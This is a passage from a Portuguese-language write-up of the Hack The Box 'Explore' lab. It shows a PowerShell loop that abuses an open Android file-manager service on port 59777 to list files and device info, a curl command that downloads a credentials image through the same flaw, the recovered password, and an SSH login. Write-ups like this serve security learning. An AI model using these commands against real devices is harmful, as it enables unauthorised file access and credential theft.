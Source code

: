 ```powershell
#!/usr/bin/pwsh

$methods = @('listFiles','listPics','listVideos','listAudios','listAppsAll','getDeviceInfo')

foreach($method in $methods){
    Write-host ">>> Method: $method" -foregroundcolor green
    Invoke-RestMethod -method POST -header @{"Content-Type" = "application/json"} -body "{'command':'$method'}" -uri http://10.10.10.247:59777 | fl *
}
```

Do resultado obtido da execução do bloco anterior, o mais interessante foi uma imagem chamada `creds.jpg`

```plaintext
>>> Method: listPics

name     : concept.jpg
time     : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size     : 135.33 KB (138,573 Bytes)

name     : anc.png
time     : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size     : 6.24 KB (6,392 Bytes)

name     : creds.jpg
time     : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size     : 1.14 MB (1,200,401 Bytes)

name     : 224_anc.png
time     : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size     : 124.88 KB (127,876 Bytes)
```

Para baixar o arquivo, utilizei o comando abaixo, também permitido pela vulnerabilidade do app encontrado:

```bash
curl --header "Content-Type: application/json" http://10.10.10.247:59777/storage/emulated/0/DCIM/creds.jpg -o creds.jpg
```

Abrindo a imagem em um visualizador, notei que existiam algumas credenciais na mesma: **kristi:Kr1sT!5h@Rp3xPl0r3!**

![HTB Explore - creds.jpg](https://i.imgur.com/senu2Y7.png){: .align-center}

Estas credenciais permitiram que me conectasse via SSH na porta 2222/TCP, conforme previamente enumerado. Encontrei a flag de usuário ao acessar o arquivo `/sdcard/user.txt`:
